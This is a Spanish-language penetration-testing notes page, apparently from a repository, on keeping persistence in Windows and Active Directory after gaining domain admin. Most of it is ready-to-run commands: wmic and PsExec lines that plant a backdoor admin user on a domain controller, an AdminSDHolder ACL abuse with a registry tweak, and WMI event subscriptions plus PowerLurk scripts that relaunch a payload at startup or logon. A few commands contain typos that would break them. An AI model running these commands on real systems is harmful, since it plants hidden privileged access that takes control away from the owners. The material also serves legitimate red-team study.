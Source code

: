 # Keep Access:
Mantener el acceso es importante porque los pentest duran dias, no es funcional tener que explotar las vulnerabilidades todos los dias, lo mejor es buscar formas más directas de acceder de nuevo.

* Siempre borra los accesos o cambios que hayas creado!

## Local Admin:

### Start Up folder:


## Active Directory:

### Domain Dominance:
Cuando se tiene domain admin, se puede tomar permanencia de diversos formas:

#### Remote Code Exec:
Agregando un usuario que conozcamos la contraseña para poder ejecutar por CLI conexiones:

- wmic /node:<DomaincontrollerName> process call create "net user /add PiratedProcess Du^^Y01" Here, PiratedProcess and Du^^Y01 are the user ID and password of the planted dummy process on the target user’s DC.

Add the user to the “Admins” group.
- PsExec.exe \\< DomaincontrollerName> -accepteula net localgroup "Admins" PiratedProcess /add

### AdminSDHolder:
Función de AD que hace que cada cierto tiempo (1 min por defecto) se asigen de nuevo los permisos de "domain admin" a los usuarios adminsitradores del AD, con la finalidad que sí un usuario es modificado maliciosamente o por error vuelva a su estado normal.
Pero esta misma función puede ser util para que en caso de que se eliminen permisos a un usuario agregado maliciosamente, se resetee a domain admin por el objeto AdminSDHolder.

Podemos agregar a un usuario al objeto AdminSDHolder con:
```
Add-ObjectAcl-TargetADSprefix 'CN=AdminSDHolder,CN=System' PrincipalSamAccountName Martin -Verbose -Rights All 
```
Validamos con:
```
Get-ObjectAcl -SamAccountName "Martin” -ResolveGUIDs
```
Puedes modificar la cantidad de segundos que se ejecuta la validación:
```
REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 300
```
Un usuario solo por pertenecer a AdminSDHolder no se le asignan los permisos de admin, debe ya tambien ser admin, por lo que debemos hacerlo manual.
```
net group “Domain Admins” Martin /add /domain
```

### WMI:
WMI (Windows Management Instrumentation) es un conjunto de extensiones para el modelo de gestión de Windows que permite la administración y supervisión de los recursos del sistema operativo. Proporciona una interfaz a traves de CLI con el lenguaje de WQL, similar a powershell o CMD pero con mayor complejidad.

#### WMI Event Suscription:
WMI Event Subscription es una funcionalidad de Windows Management Instrumentation (WMI) que permite a los administradores y desarrolladores suscribirse a eventos del sistema y realizar acciones automáticas en respuesta a esos eventos.
```
- wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="EthicalHacker", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
- wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="EthicalHacker", ExecutablePath="C:\Windows\System32\ethicalhacker.exe",Command LineTemplate="C:\Windows\System32\thicalhacker.exe"
- wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"EthicalHacker\"", Consumer="CommandLineEventConsumer.Name=\"EthicalHacker\""
```
#### WMI-Persistence:
Tambien podemos automatizarlo con un script:
```
powershell> Import-Module ./WMI-Persistence.ps1
powershell> Install-Persistence -Trigger Startup -Payload "c:\windows\system32\ethicalhacker.exe"
```
- https://github.com/subesp0x10/Wmi-Persistence

#### Powerluks
Script que simplifica el uso de WMI para persistencia basada en detección de eventos de USB, login, logout, Inicio de proceso.
```
Import-Module .\PowerLurk.ps1
Get-WmiEvent
Register-MaliciousWmiEvent -EventName Logonlog -PermanentCommand "ethicalhacker.exe" -Trigger UserLogon -Username any
```

### Power-tools
















